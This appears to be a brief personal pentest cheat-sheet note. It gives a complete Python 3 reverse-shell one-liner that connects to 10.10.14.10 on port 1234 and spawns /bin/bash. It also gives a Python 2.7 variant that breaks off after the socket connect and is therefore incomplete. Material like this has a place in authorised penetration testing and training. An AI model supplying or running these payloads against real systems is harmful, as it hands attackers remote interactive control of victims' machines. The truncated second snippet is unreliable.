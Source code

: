 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Launch reverse shell with python3
```exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

### Launch reverse shell with python 2.7

``python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))``


